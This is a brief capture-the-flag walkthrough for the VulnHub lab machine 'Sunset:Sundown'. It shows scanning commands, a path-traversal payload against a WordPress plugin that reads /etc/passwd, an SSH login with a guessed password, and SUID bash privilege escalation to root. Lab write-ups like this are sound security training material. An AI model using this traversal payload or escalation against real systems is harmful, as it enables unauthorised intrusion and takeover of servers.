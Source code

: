 

# Sunset:Sundown Walkthrough 

**VulnHub Link:** [Sunset:Sundown](https://www.vulnhub.com/entry/sunset-sundown,530/)
**Difficulty:** Easy
**Release Date:** 4 Aug 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```
## 3.Exploitaion

spritz exploitation --> /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd

carlos user found --> ssh password is -- carlos

user flag found

## 4.Privilege Escalation

executing linpeas and bash suid --> ./bash -p --> root flag found
